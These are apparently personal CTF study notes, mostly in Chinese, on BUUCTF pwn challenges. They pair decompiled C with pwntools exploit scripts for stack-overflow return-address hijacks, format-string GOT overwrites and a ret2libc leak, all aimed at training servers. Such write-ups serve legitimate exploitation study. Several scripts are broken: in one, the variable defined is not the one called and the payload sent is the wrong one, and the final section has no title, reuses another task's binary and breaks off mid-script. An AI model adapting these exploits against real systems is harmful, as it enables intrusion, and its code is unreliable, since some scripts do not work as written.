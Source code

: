 # buuctf-pwn




.. note::

   This . 




## warmup_csaw_2016



```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```



```python
from pwn import *

sh = remote('node4.buuoj.cn', 25891)
sh.sendline("A"*(0x40+8)+p64(0x40060D))
sh.interactive()
```





## ciscn_2019_n_1



+ amd64-64-little、NX
+ 考察点：
  + 十六进制的存储
  + ret2text覆盖返回地址



```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```





(一)栈溢出写入浮点数

浮点数的小数点表示法是直观的表现形式，实际在计算机中以十六进制（二进制）的指定形式表示。

+ 十进制浮点数 => 二进制形式 => 十六进制形式

由于涉及到判断是否相等的操作，那么11.28125的十六进制形式也会在程序中存储。

> ```c
> 11.28125 转换为二进制为 1011.01001
> 11.28125 在计算机内部储存为 0100 0001 0011 0100 1000 0000 0000 0000
> 即11.28125 ==> 0x41348000
> ```



（二）栈溢出写入返回地址

让gets函数直接返回到system(cat flag)代码处，跳过if条件判断。

```python
from pwn import *
r=remote("node4.buuoj.cn",28863)

ret_arr = 0x4006BE
float_num = 0x41348000 
payload1 = 'a'*(0x30 - 0x4) + p64(float_num) 
payload2 = 'a'*(0x30 + 8) + p64(ret_arr)
p.sendline(payload1)
p.interactive()
```





## pwn1_sctf_2016 [源码没有读懂]





fgets看似限制了输入字符数为32，但后面存在字符替换操作。每单个字符`I`都会被替换为三个字符`You` 。而变量s的大小为60，可以输入20个`I`，替换后就得到了60个字符，利用栈溢出覆盖ebp和返回地址为get_flag函数。





```c
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/01117078187747439192eab955af9598.png)



```
from pwn import *
r=remote("node4.buuoj.cn",25145)
#0x3c=60 
#every "I" will be replaced into "you", need 60/3=20 I
r.sendline("I"*20+"B"*4+p32(0x08048F0D))
r.interactive()
```







## jarvisoj_level0





```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
int callsystem()
{
  return system("/bin/sh");
}
```





```
from pwn import *
r=remote("node4.buuoj.cn",25007)
backdoor=0x400596
r.sendline("A"*(0x80+8)+p64(backdoor))
r.interactive()
```



## [第五空间2019 决赛]PWN5



+ Canary
+ i386-32-little
+ NX



num_addr=0x804C044 	#4字节

p32(num_addr)+"%10$n"

输入字符串的内容所在地址，相对格式化字符串所在地址的偏移为第10个参数



思路：

+ 格式化字符串漏洞任意地址写入，覆盖read的返回地址为system执行地址
+ 修改num的大小



**【疑问】为什么要写入四字节的数据**

![img](https://img-blog.csdnimg.cn/1bb32ec175a6481fb888fe6ebae7e299.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATF9feQ==,size_19,color_FFFFFF,t_70,g_se,x_16)

```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
addr = 0x0804C044
#地址，也就相当于可打印字符串，共16byte
payload = p32(addr)+p32(addr+1)+p32(addr+2)+p32(addr+3)
#开始将前面输出的字符个数输入到地址之中，hhn是单字节输入，其偏移为10
#%10$hhn就相当于读取栈偏移为10处的数据当做地址，然后将前面的字符数写入到地址之中
payload += "%10$hhn%11$hhn%12$hhn%13$hhn"
p.sendline(payload)
# 0x10101010  4 * len(p32()) = 0x10
p.sendline(str(0x10101010))
p.interactive()
```



+ fmtstr：任意地址写入，修改num的值

```
from pwn import *
sh = remote('node4.buuoj.cn',28526)
unk_804C044 = 0x804C044
payload = fmtstr_payload(10, {unk_804C044: 0x1})
sh.sendline(payload)
sh.sendline(str(0x1))
sh.interactive()
```



```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]
payload = fmtstr_payload(10,{atoi_got:system_plt})
p.sendline(payload)
p.sendline("/bin/sh\x00")  #!
p.interactive()
```





## 

思路：利用gets栈溢出泄露puts函数内存地址，从而确定libc版本，得到system("/bin/sh")



为了绕过while循环退出条件`v0>=strlen(s)` ，可以构造"\0"字符截断，作为溢出padding的一部分。

![img](https://img-blog.csdnimg.cn/20210322184607848.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTU1NjQ0MQ==,size_16,color_FFFFFF,t_70)



puts@plt(puts@got) -> main 

总结做题中的错误：

+ 忘记64位需要堆栈平衡，需要使用gadget来构造参数
+ 没有看懂程序执行逻辑，没有看到while循环中的语句，如果不截断字符将会一直进行循环。

```
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]
main_addr=elf.sym["main"]
p.sendline("1")
p.recvuntil("\n")
p.sendline("A"*(0x50+8)+p64(puts_plt)+p64(puts_got)+p64(main_addr))




```













































